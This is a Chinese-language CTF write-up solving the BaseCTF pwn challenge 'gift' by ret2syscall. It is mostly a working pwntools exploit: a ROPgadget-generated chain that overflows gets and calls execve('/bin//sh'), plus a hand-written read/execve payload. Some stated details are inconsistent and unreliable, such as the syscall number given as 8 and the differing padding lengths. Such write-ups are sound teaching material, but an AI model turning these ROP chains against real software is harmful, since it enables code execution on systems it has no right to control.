

# Basectf pwn方向“gift”

by Maple

发现给了很多函数，但是其实没有什么可以用的地方，还开启canary了,但是有可读可写可执行的段，问题不大

因为有很多函数，看看是不是ret2syscall，查一下有没有足够的gaget



*绰绰有余*.

直接`ROPgadget --binary gift --ropchain`一把梭了，反正gets不限长度

```python
from pwn import *
from struct import pack
io=process('./gift')
p = b''

p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall
payload=b'a'*(0x20+8)+p
io.recv()
io.sendline(payload)
io.interactive()
```

## 手写

在shellcode1中讲过，rax存放系统调用号，然后将想调用函数的对应参数放入到对应的寄存器里（rdi，rsi，rdx）

ida里并没有发现`/bin.sh`，所以我们应该先构造read函数写入/bin/sh（类似shellcode1），接着调用execve(调用号是8)

1. 寻找目标gaget
   1. pop_rax_ret = 0x0000000000419484
   2. pop_rdi_ret = 0x0000000000401f2f
   3. pop_rsi_ret = 0x0000000000409f9e
   4. pop_rdx_rbx_ret = 0x000000000047f2eb
   5. syscall = 0x0000000000401ce4
2. payload

```python
payload = b'a'*0x40
payload += p64(rax)+p64(0x0)+p64(rdi)+p64(0)+p64(rsi)+p64(bss)+p64(rdx_rbx)+p64(0x10)+p64(0x0)+p64(syscall)
payload += p64(rax)+p64(0x3b)+p64(rdi)+p64(0x498ac9)+p64(rsi)+p64(0)+p64(rdx_rbx)+p64(0)+p64(0)+p64(syscall) 
```

附：[系统调用表](https://blog.csdn.net/SUKI547/article/details/103315487)